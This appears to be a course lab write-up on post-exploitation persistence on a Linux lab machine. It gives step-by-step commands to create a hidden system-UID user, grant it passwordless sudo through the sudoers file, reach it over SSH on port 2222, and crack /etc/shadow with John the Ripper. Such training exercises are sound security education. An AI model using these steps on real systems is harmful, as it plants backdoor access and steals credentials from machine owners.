 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 
            • su sysd
            Then
            • sudo -l
![see photo](/images/Picture3.png)

## Step 2: Smooth Sailing

    1.	Edit the sshd_config file:
        • sudo nano /etc/ssh/sshd_config
![see photo](/images/Picture4.png)

## Step 3: Testing Your Configuration Update

    1. Restart the SSH service:
        • service ssh restart
    2. Exit the root account:
        • exit
    3. SSH to the target machine using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    
## Step 4: Crack All The Passwords
    1. SSH back to the system using your sysd account and port 2222:
        • ssh sysd@192.168.6.105 -p 2222
    2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
        • sudo su
        • john /etc/shadow

See screenshot below.

![see photo](/images/Picture5.png)